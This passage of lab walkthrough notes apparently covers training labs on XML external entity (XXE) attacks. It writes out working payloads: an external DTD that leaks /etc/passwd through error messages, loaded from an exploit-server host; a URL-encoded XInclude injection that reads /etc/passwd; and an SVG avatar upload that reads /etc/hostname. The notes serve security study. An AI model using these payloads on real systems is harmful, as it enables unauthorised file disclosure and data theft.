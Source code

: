 ```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
7. Make remote call to include malicious DTD hosted on exploit server
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "https://exploit-0a5b004903cf39a6806b43c30198001c.exploit-server.net/exploit">
  %remote;
  %error;
]><productId>3</productId><storeId>1</storeId></stockCheck>
```
8. Contents included in HTTP response error message
# Exploiting XInclude to retrieve files
- Inject `XInclude` statement to retrieve `/etc/passwd`
1. View product
2. Check stock
3. POST `/product/stock` is sending a request using `application/x-www-form-urlencoded` content type
4. In the `productId` parameter submit an "XInclude" payload attack
```html
productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi:include+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```
- This payload is URL encoded
5. Retrieve `/etc/passwd`
# Exploiting XXE via image file upload
- Retrieve `/etc/hostname`
- Post comments and select an avatar as a file upload
1. Go to post
2. Upload normal jpg to see intended behaviour (if it is too large just nuke a lot of the image data)
3. Test uploading `.svg` extension and `Content-Type: image/svg+xml`
	- Is allowed meaning we can try XXE payloads
4. Upload `svg` image with XXE payload to read hostname
```xml
<?xml version="1.0" standalone="yes"?>
 <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname">]>
 <svg width="256px" height="256px" xmlns="http://www.w3.org/2000/svg" 
xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
 <text font-size="23" x="8" y="28">&xxe;</text>
 </svg>
```
- All of this goes into the `form-data; name="avatar";` section